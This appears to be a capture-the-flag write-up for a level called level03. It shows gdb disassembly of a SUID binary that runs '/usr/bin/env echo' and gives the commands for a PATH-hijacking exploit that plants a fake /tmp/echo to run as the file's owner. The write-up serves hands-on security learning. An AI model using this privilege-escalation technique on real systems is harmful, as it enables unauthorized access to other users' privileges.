 # Flag

For this flag, we can see that this user has an executable on his directory: "level03".
When executing it, it simply prints "Exploit me".
We can also see that the "SUID" bit is set, which means that this prgoram will be executed as it's owner. 
It's owner is "flag03", so if we can make it run the "getflag" or even "/bin/bash" we could get the flag or even become flag03!

doing "strings level03" lets us see that there is a line as follows: "/usr/bin/env echo Exploit me"
We can confirm that this is indeed being executed by using gdb or pwndbg:
```
gdb level03
(gdb) disassemble main
   ...
   0x080484f7 <+83>:	mov    DWORD PTR [esp],0x80485e0
   0x080484fe <+90>:	call   0x80483b0 <system@plt>
   ...
(gdb) x/s 0x80485e0
0x80485e0:	"/usr/bin/env echo Exploit me"
```

As echo isn't hardcoded but rather relies on the PATH variable to determine what to run, we can modify the PATH environment variable to modify what echo does.
```
echo "getflag" > /tmp/echo
chmod 755 /tmp/echo
export PATH="/tmp:$PATH"
./level03
```

This gets us the flag! on to level04!

